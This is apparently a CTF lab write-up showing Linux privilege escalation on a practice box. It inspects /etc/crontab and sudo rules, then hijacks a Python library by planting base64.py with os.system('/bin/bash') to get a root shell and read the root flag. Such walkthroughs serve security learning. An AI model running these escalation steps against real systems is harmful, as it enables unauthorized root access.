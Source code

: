 We also see a cron that the root user executes.
```shell
veronica@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /root/Lucrecia && bash lucre.sh
#
```
Also when performing **sudo -l -l** we see that we can execute **/usr/bin/python3.5 /home/veronica/base.py** with sudo.
```shell
veronica@ubuntu:~$ sudo -l -l
sudo -l -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Commands:
        ALL

Sudoers entry:
    RunAsUsers: root
    RunAsGroups: root
    Options: !authenticate
    Commands:
        /usr/bin/python3.5 /home/veronica/base.py
```
We create the base64.py file where we place a reverse shell to perform [Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).
```shell
veronica@ubuntu:~$ echo 'import os;os.system("/bin/bash")' > base64.py
echo 'import os;os.system("/bin/bash")' > base64.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# ls
ls
base64.py  Documents         ghidra_9.0  Public       user.txt
base.py    Downloads         Music       __pycache__  Videos
Desktop    examples.desktop  Pictures    Templates
root@ubuntu:~# cat /root/root.txt
```
And we obtain the root flag, until here I am waiting for your feedback.
